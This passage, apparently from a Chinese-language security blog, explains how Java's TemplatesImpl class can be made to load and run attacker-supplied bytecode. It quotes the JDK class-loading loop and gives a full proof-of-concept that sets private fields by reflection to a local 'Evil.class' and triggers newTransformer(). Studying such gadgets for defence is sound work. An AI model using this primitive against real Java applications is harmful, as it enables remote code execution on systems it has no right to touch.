 需要_bytecodes不为null且\_tfactory要能执行getExternalExtensionsMap()方法，并且在进行类加载后：

```java
for (int i = 0; i < classCount; i++) {
  _class[i] = loader.defineClass(_bytecodes[i]);
  final Class superClass = _class[i].getSuperclass();

  // Check if this is the main class
  if (superClass.getName().equals(ABSTRACT_TRANSLET)) {
    _transletIndex = i;
  }
  else {
    _auxClasses.put(_class[i].getName(), _class[i]);
  }
}

if (_transletIndex < 0) {
  ErrorMsg err= new ErrorMsg(ErrorMsg.NO_MAIN_TRANSLET_ERR, _name);
  throw new TransformerConfigurationException(err.toString());
}
```

若加载的类的父类名称不为ABSTRACT_TRANSLET，则会在后续抛出一个异常，完整POC如下：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import javax.xml.transform.TransformerConfigurationException;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;

public class main {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, TransformerConfigurationException {
        TemplatesImpl template = new TemplatesImpl();
        setField("_name",template,"Von");
        setField("_bytecodes",template,new byte[][]{Files.readAllBytes(Paths.get("/Users/CC3/Evil.class"))});
        setField("_tfactory",template,new TransformerFactoryImpl());
        template.newTransformer();
    }

    public static void setField(String fieldname,Object obj,Object value) throws NoSuchFieldException, IllegalAccessException {
        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        Field declaredField = templatesClass.getDeclaredField(fieldname);
        declaredField.setAccessible(true);
        declaredField.set(obj,value);
    }
}
```

